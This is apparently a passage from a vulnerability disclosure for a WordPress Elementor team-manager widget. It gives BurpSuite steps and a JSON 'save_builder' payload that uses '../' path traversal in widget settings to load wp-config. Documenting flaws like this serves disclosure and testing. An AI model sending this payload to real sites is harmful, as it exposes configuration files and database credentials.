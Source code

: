 #### Step 3

**Submit**, capture the request with **BurpSuite** and send it to **Repeater**

#### Step 4

Modify the `action` parameter's value in the request using the Inspector and resend the payload

```json
{
  "save_builder": {
    "action": "save_builder",
    "data": {
      "status": "pending",
      "elements": [
        {
          "id": "e9249f1",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": [
            {
              "id": "3e7c95b",
              "elType": "widget",
              "isInner": false,
              "isLocked": false,
              "settings": {
                "layout_type": "../../../../../../..",
                "../../../../../../.._style_type": "wp-config"
              },
              "elements": [],
              "widgetType": "wtm-team-manager"
            }
          ]
        },
        {
          "id": "b132b28",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": []
        }
      ],
      "settings": {
        "post_title": "Team",
        "post_status": "pending"
      }
    }
  }
}
```
